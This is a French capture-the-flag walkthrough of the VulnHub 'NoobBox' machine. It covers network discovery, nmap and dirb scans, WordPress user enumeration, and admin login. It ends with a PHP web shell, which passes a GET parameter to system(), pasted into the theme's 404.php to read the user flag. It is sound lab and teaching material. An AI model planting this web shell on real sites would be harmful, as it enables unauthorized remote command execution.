 # Shadow Phreak - NoobBox

Pour cette machine de niveau débutant, l'auteur nous indique qu'il faut trouver 2 flags :
* un flag utilisateur
* un flag administrateur

Il nous indique également que sa machine fonctionne mieux sur VirtualBox que sur VMware.

# Analyse 

## Recherche de l'adresse IP de la machine

L'adresse MAC de la carte réseau de ma machine s'exécutant sous VirtualBox commencera toujours par "08:00:27".  
Je lance donc la commande suivante :
```
sudo netdiscover | grep "08:00:27"

192.168.7.96    08:00:27:b0:7d:2d      1      60  PCS Systemtechnik GmbH
```
Elle me permet d'obtenir l'adresse IP de ma machine : 192.168.7.96

## Recherche d'un point d'entrée

Je commence une première approche avec nmap :
```
sudo nmap -A 192.168.7.96 -p-

PORT   STATE    SERVICE VERSION
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
```
Le point d'entrée sera donc le port 80.

Je visite le site web, il s'agit de la page par défaut d'Apache 2.

Je cherche ensuite s'il n'y a pas des répertoires cachés :
```
dirb http://192.168.7.96

==> DIRECTORY: http://192.168.7.96/wordpress/
```

Je découvre qu'il y a un site WordPress, son contenu ne contient rien d'intéressant.  
Je recherche s'il contient une faille :
```
wpscan --url http://192.168.7.96/wordpress/ -e u

[+] noobbox
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Il ne contient pas de faille mais j'ai récupéré le nom d'utilisateur : noobbox  

Je vais essayer de trouver des fichiers cachés :
```
dirb http://192.168.7.96 -X .php,.html,.bak,.png,.jpg

+ http://192.168.7.96/img.jpg (CODE:200|SIZE:4811)
```

Dans cette image, je trouve la chaîne de caractères suivante : 5p4c3

Je me connecte au site à l'adresse suivante : http://192.168.7.96/wordpress/wp-admin/

Je me rends vite compte que le site utilise l'adresse IP `192.168.43.162` dans tous les liens.

Pour contourner le problème, j'utilise Burp Suite et je remplace en temps réel cette adresse IP par celle de ma VM :

![](https://github.com/mrousse83/VulnHub/raw/main/VulnHub/Shadow%20Phreak/NoobBox/burp.png)

# Exploitation

## Mise en place d'un reverse shell

Une fois connecté sur l'interface d'administration de WordPress, je modifie la page d'erreur `404.php`, je remplace son contenu par mon reverse shell :
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

Ensuite, je visite le site en chargeant une page qui n'existe pas afin de faire exécuter ce code.  

J'obtiens mon flag avec la commande suivante : `cat ../../../../home/noobbox/user.txt`
```
USER FLAG : {e7028891afea8df6164a35880cc7e2e5}
```

